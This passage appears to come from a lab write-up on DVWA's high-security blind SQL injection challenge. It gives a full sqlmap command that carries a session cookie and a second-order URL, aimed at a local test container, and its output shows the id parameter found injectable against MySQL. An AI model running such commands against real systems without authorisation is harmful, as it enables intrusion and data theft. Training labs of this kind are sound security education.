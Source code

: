 ```txt
```

#### High

If we intercept the POST request containing the id we can see that the request has a new cookie associated with it, so we add this one to the command of the corresponding difficulty from the previous attack `sqlmap -u "http://172.17.0.2/vulnerabilities/sqli_blind/cookie-input.php" --cookie "id=1;PHPSESSID=albq3dhv4vof90l6l89q8qa1s0;security=high" --data="id=1&Submit&Submit" --second-url "http://172.17.0.2/vulnerabilities/sqli_blind" --batch -dbs`

```txt
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.12#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:47:55 /2023-12-02/

[13:47:55] [INFO] testing connection to the target URL
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
got a 301 redirect to 'http://172.17.0.2/vulnerabilities/sqli_blind/'. Do you want to follow? [Y/n] Y
[13:47:55] [INFO] testing if the target URL content is stable
[13:47:56] [WARNING] POST parameter 'id' does not appear to be dynamic
[13:47:56] [WARNING] heuristic (basic) test shows that POST parameter 'id' might not be injectable
[13:47:56] [INFO] testing for SQL injection on POST parameter 'id'
[13:47:56] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:47:56] [INFO] POST parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="User ID exists in the database.")
[13:48:08] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[13:48:08] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[13:48:10] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[13:48:10] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[13:48:12] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[13:48:12] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[13:48:12] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[13:48:12] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[13:48:12] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[13:48:14] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:48:15] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:48:15] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[13:48:15] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[13:48:17] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
```